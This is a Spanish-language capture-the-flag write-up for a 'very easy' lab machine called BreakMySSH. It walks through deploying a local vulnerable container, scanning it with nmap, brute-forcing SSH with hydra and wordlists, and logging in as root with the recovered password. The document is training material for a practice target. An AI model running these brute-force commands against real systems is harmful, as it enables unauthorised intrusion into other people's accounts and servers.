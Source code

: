 # 5. Máquina: BreakMySSH
<a href="https://github.com/GutsNet"><img title="Author" src="https://img.shields.io/badge/Author-GutsNet-purple.svg?style=for-the-badge&logo=github"></a>

**Dificultad:** 🔵 *Muy Fácil*

**Autor:** *[El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)*

**Fecha de creación:** *29/05/2024*

**Proceso:**
- [1. Despliegue](#desplegando-la-máquina-vulnerable)
- [2. Escaneo de puertos](#escaneo-de-puertos-con-nmap)
- [3. Ataque de fuerza bruta](#fuerza-bruta-ssh-con-hydra)
- [4. Acceso con SSH](#acceso-al-servidor-ssh)
---

## Desplegando la Máquina Vulnerable

```python
~/BreakMySSH ᐅ sudo bash auto_deploy.sh breahmyssh.tar
```
Este comando ejecuta un script de bash (`auto_deploy.sh`) que despliega la máquina vulnerable a partir del archivo `breakmyssh.tar`.

**Salida:**

```python
Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

#### Verificación de Conectividad

```python
~/BreakMySSH ᐅ ping -c 2 172.17.0.2
```
El comando `ping -c 2` envía 2 paquetes ICMP a la dirección IP `172.17.0.2` para verificar la conectividad y la respuesta del host.

**Salida:**

```python
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.057 ms
64 bytes from 172.17.0.2: icmp_seq=2 ttl=64 time=0.067 ms

--- 172.17.0.2 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1028ms
rtt min/avg/max/mdev = 0.057/0.062/0.067/0.005 ms
```

---

## Escaneo de Puertos con Nmap

```python
~/BreakMySSH ᐅ nmap -p- -sCV 172.17.0.2
```
Este comando revela quu el puertos `22` (SSH) están abiertos y tiene el servicio `OpenSSH 7.7` en ejecución.

**Salida:**

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
```

**Explicación de parámetros:**

- `-p-`: Escanea todos los puertos (del 1 al 65535).
- `-sCV`: Realiza un escaneo con detección de versión (`-sV`) y utiliza scripts básicos (`-sC`) para obtener más información del servicio.

---

## Fuerza Bruta SSH con Hydra

La máquina no nos proporciona mas pistas, por tanto, la unica opción es realizar un ataque de fuera bruta al servicio SSH utilizando hydra.

```python
~/BreakMySSH ᐅ hydra -L $seclst/Usernames/top-usernames-shortlist.txt -P $seclst/Passwords/probable-v2-top12000.txt ssh://172.17.0.2 -I -t 32
```

**Salida:**

```python
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```

Hydra encuentra la contraseña `estrella` para el usuario `root`. Tanto el usuario como la contraseña, fueron extraidos de algunas wordlists.

**Explicación de parámetros:**
- `-L`: Establece la wordlist con usuarios.
 - `-P`: Especifica la wordlist de contraseñas.
 - `ssh://172.17.0.2`: Define el protocolo y la IP del objetivo.
- `-I`: Ejecuta el ataque inmediatamente sin demora.
- `-t 32`: Utiliza 32 tareas en paralelo.

---

## Acceso al Servidor SSH

```python
~/BreakMySSH ᐅ ssh root@172.17.0.2
```

Este comando inicia una sesión SSH en la máquina como el usuario `root`.

**Salida:**
 ```python
root@172.17.0.2's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@95513d5d3ca3:~#
```

**Comprobación:**
```
root@95513d5d3ca3:~# whoami
root
```

